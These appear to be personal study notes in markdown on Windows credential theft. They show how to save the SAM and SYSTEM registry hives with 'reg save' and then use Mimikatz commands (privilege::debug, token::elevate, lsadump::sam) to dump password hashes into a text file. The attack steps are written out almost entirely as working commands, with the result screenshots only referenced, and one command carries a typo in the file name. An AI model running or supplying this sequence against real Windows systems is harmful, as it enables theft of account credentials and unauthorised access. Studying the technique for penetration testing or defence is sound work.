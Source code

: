 




# **SYSTEM** and **SAM** Registry Hives




1. We can extract the **SYSTEM** and **SAM** **Registry Hives** from a local Windows machine by using the following command : 


>[!code]
>
>#### Command : 
>
>This would take care of the **SAM Registry** : 
>
>		reg save HKLM\SAM SamBkup.hiv
>
>
>#### Command :  
>
>This would take care of the **SYSTEM Registry** :
>
>		reg save HKLM\SYSTEM SystemBkup.hiv
>





# Dumping the **Hashes** with *MiMiKatZ* and *LSADump*



We would launch **MiMiKaTz** wit the following command : 


>[!code]
>
>#### Command : 
>
>	mimikatz 
>
>Which yields a shell : 
>
>	mimikatz# 
>
>We would need to run the following command , but without *administrative privileges*, we would get an error such as the following : 
>
>#### Command : 
>
>	lsadump::sam SystemBkup.hiv SamBkup.hiv
>
>###### Error : 
>![[Pasted image 20240327180553.png]]
>
>
>
>The reason why this command does not work is due to lack of *administrative privileges*. The way to get around it is via the following commands : 
>
>#### Command : 
>
>	privilege::debug
>
>#### Second Command :
>
>	token::elevate
>
>Next, we use the *log* command so the next command will output to a *txt* file : 
>
>#### Command : 
>
>	log hash.txt
>
>After doing so, we issue the command we tried earlier on : 
>
>#### Command : 
>
>	lsadump::sam SystemBkup.hiv SamBkup.hivc
>
>This would lead to the much-welcomed result : 
>
>![[Pasted image 20240327181458.png]]
>
>Next, let us check out the *hash.txt* file : 
>
>
>





